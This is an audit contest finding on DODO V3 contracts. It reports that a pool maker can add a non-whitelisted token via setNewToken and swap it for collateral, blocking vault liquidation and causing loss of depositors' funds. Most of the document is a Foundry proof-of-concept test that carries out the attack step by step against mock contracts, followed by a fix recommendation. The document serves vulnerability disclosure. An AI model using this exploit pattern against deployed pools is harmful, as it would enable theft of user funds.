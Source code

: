 Kalyan-Singh

high

# Malicious Pool owner/maker can add any token with chainlink price feed and break pool liquidation + steal vault

### Malicious Pool owner/maker can add any token with chainlink price feed and break pool liquidation + steal vault depositer's funds

## Summary
Pool creator can add a new token which can make not liquidatable by vault and lead to loss of user funds.

## Vulnerability Detail
anyone can deposit a token which is not allowed by vault in a pool and could swap them for whitelisted tokens. If this unwhitelisted token's price falls liquidation will still not be possible

[https://github.com/sherlock-audit/2023-06-dodo/blob/a8d30e611acc9762029f8756d6a5b81825faf348/new-dodo-v3/contracts/DODOV3MM/D3Pool/D3Maker.sol#L158-L213](https://github.com/sherlock-audit/2023-06-dodo/blob/a8d30e611acc9762029f8756d6a5b81825faf348/new-dodo-v3/contracts/DODOV3MM/D3Pool/D3Maker.sol#L158-L213)

[https://github.com/sherlock-audit/2023-06-dodo/blob/a8d30e611acc9762029f8756d6a5b81825faf348/new-dodo-v3/contracts/DODOV3MM/D3Pool/D3Funding.sol#L58-L71](https://github.com/sherlock-audit/2023-06-dodo/blob/a8d30e611acc9762029f8756d6a5b81825faf348/new-dodo-v3/contracts/DODOV3MM/D3Pool/D3Funding.sol#L58-L71)

[https://github.com/sherlock-audit/2023-06-dodo/blob/a8d30e611acc9762029f8756d6a5b81825faf348/new-dodo-v3/contracts/DODOV3MM/D3Pool/D3Trading.sol#L129-L165](https://github.com/sherlock-audit/2023-06-dodo/blob/a8d30e611acc9762029f8756d6a5b81825faf348/new-dodo-v3/contracts/DODOV3MM/D3Pool/D3Trading.sol#L129-L165)


poc- 
1. Suppose token 3 - 1$ , token2 = 12$ and token5 = 2$
2. token3 and token2 are whitelisted by a vault but not token5 
3. pool has 100 token3 and it borrows 10 token2 
4. now someone or malicious pool creator/maker adds the more volatile token5 to the pool by calling D3Maker's setNewToken
5. now someone/he buys 99 token3s by giving appropriate token5s 
6. if the price of token5 falls, even to 0$ or 1$ , vault will not be able to liquidate the pool and depositer's funds will be lost.

## Impact
Loss of user funds + makes the pool not liquidatable by vault

## Code Snippet
POC-

`
function setUp() public {
        contextBasic();
        setVaultAsset();

        vm.label(poolCreator,"poolCreator");
        vm.label(user1,"user1");


        d3Maker = new D3Maker();
        d3Maker.init(poolCreator, address(d3MM),100000);
        vm.prank(poolCreator);
        d3MM.setNewMaker(address(d3Maker));


        uint allFlag = (2**10)-1;
        d3MM.setAllFlagByAnyone(allFlag);
    } 

    function testHackPoc1() public {
        // initial price of token5
        assertEq(token5ChainLinkOracle.price(),2 ether);




        // getting all tokenInfo
        MakerTypes.TokenMMInfoWithoutCum memory token1Info = contructToken1MMInfo();
        MakerTypes.TokenMMInfoWithoutCum memory token2Info = contructToken2MMInfo();
        MakerTypes.TokenMMInfoWithoutCum memory token3Info = contructToken3MMInfo();
        MakerTypes.TokenMMInfoWithoutCum memory token5Info = contructToken5MMInfo();


        // pool has 100 ether of token3 deposited by someone
        token3.mint(address(d3MM), 100 ether);
        d3MM.updateReserve(address(token3));


        // first maker only sets 3 tokens
        vm.startPrank(poolCreator);
        d3Maker.setNewToken(address(token1), true, token1Info.priceInfo, token1Info.amountInfo, token1Info.kAsk, token1Info.kBid, 18);
        d3Maker.setNewToken(address(token2), true, token2Info.priceInfo, token2Info.amountInfo, token2Info.kAsk, token1Info.kBid, 8);
        d3Maker.setNewToken(address(token3), false, token3Info.priceInfo, token3Info.amountInfo, token3Info.kAsk, token1Info.kBid, 18);
        vm.stopPrank();

        // check vault's and pool's  initial balances
        assertEq(token3.balanceOf(address(d3Vault)), 500  ether);
        assertEq(token2.balanceOf(address(d3Vault)), 500 ether);
        assertEq(token1.balanceOf(address(d3Vault)), 500 * 1e8);
        assertEq(token5.balanceOf(address(d3Vault)), 0);


        assertEq(token3.balanceOf(address(d3MM)), 100 ether);
        assertEq(token2.balanceOf(address(d3MM)), 0);
        assertEq(token1.balanceOf(address(d3MM)), 0);
        assertEq(token5.balanceOf(address(d3MM)), 0);


        // borrow 10 token2
        poolBorrow(address(d3MM), address(token2), 10 ether);
        assertEq(token2.balanceOf(address(d3MM)), 10 ether);



        // attackBegins


        // maker adds a new token not in the vault
        token5.mint(poolCreator, 500 ether);

        SwapCallbackData memory swapData;
        swapData.data = "";
        swapData.payer = poolCreator;

        vm.startPrank(poolCreator);
        d3Maker.setNewToken(address(token5), false, token5Info.priceInfo, token5Info.amountInfo, token5Info.kAsk, token1Info.kBid, 18);
        token5.approve(address(dodoApprove), 60 ether);

        // buys token3 for token5

        uint payFromAmount3 = d3Proxy.buyTokens(
            address(d3MM),
            poolCreator,
            address(token5),
            address(token3),
            99 ether,
            60 ether,
            abi.encode(swapData),
            block.timestamp + 1000
        );

        emit log_named_decimal_uint("token5 paid to get 99 token3", payFromAmount3, 18);

        vm.stopPrank();

        // liquidation check
        d3Vault.accrueInterests();
        assertEq(d3Vault.checkCanBeLiquidatedAfterAccrue(address(d3MM)),false);


        // even if token5 falls to 0, no funds can be recovered from pool by vault
        // hence loss of user funds
        token5ChainLinkOracle.feedData(0);
        assertEq(token5ChainLinkOracle.price(),0);
        assertEq(d3Vault.checkCanBeLiquidated(address(d3MM)),false);


        // try liquidating
        vm.prank(vaultOwner);
        d3Vault.addLiquidator(address(this));
        d3Vault.accrueInterests();
        assertEq(d3Vault.checkCanBeLiquidatedAfterAccrue(address(d3MM)),false);

        logCollateralRatio(address(d3MM));


        // check vault's and pool's  final balances
        assertEq(token3.balanceOf(address(d3Vault)), 500 ether);
        assertEq(token2.balanceOf(address(d3Vault)), 490 ether);
        assertEq(token1.balanceOf(address(d3Vault)), 500 * 1e8);
        assertEq(token5.balanceOf(address(d3Vault)), 0);


        // assertEq(token3.balanceOf(address(d3MM)), 1 ether);  not exactly 1 ether due to swap fee
        assertEq(token2.balanceOf(address(d3MM)), 10 ether);
        assertEq(token1.balanceOf(address(d3MM)), 0);
        assertEq(token5.balanceOf(address(d3MM)), payFromAmount3);

        address [] memory  tokenList = d3Vault.getTokenList();

        assertEq(tokenList.length, 3);  // only 3 tokens still

    }




}

`

## Tool used

Manual Review

## Recommendation
My recommendation is that d3Maker should check whether the newly added token is whitelisted in its vault of or not.
